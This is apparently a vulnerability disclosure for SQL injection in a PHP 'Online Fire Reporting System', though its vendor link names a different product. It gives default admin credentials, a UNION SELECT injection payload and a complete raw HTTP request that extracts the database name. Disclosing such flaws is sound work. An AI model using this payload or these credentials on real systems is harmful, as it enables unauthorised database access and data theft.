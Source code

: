 # Online Fire Reporting System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/index.php?q=result&searchfor=bycompany

Vulnerability location: /eris/index.php?q=result&searchfor=bycompany,SEARCH

Current database name: erisdb

[+] Payload: SEARCH=9890') union select 1,2,3,database(),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--+&CATEGORY=&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2 // Leak place ---> SEARCH

```sql
POST /eris/index.php?q=result&searchfor=bycompany HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 140

SEARCH=9890') union select 1,2,3,database(),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--+&CATEGORY=&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

![image](https://user-images.githubusercontent.com/54017627/170849385-c589b67a-f3c6-4810-94d5-57f2fc0e4e7a.png)

![image](https://user-images.githubusercontent.com/54017627/170849381-c88918d6-6cc3-45ad-b1cd-99abd68a1cf8.png)
